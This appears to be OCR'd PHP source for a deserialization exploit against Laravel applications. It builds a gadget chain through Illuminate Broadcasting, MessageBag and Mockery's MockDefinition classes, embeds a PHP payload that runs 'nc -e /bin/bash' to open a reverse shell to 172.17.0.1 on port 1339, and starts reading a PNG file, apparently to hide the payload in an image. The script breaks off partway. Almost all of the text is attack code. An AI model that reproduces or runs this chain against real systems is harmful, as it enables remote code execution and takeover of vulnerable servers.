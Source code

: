 ```php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;

        function __construct($evilCode)
        {
            $this->events = new \Illuminate\Bus\Dispatcher();
            $this->event = new BroadcastEvent($evilCode);
        }
    }

    class BroadcastEvent {
        public $connection;

        function __construct($evilCode)
        {
            $this->connection = new \Mockery\Generator\MockDefinition($evilCode);
        }

    }
}

namespace Illuminate\Support {
        class MessageBag {
                protected $messages = [];
                protected $format;

                function __construct($inner) {
                        $this->format = $inner;
                }
        }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Mockery\Generator {
    class MockDefinition {
        protected $config;
        protected $code;

        function __construct($evilCode)
        {
            $this->code = $evilCode;
            $this->config = new MockConfiguration();
        }
    }

    class MockConfiguration {
        protected $name = 'abcdefg';
    }
}


namespace{
    $code = '<?php system("nc -e /bin/bash 172.17.0.1 1339") ?>';
    $expected = new \Illuminate\Broadcasting\PendingBroadcast($code);
    $image = new \Illuminate\Support\MessageBag($expected);

    $png = file_get_contents('foo.png');

```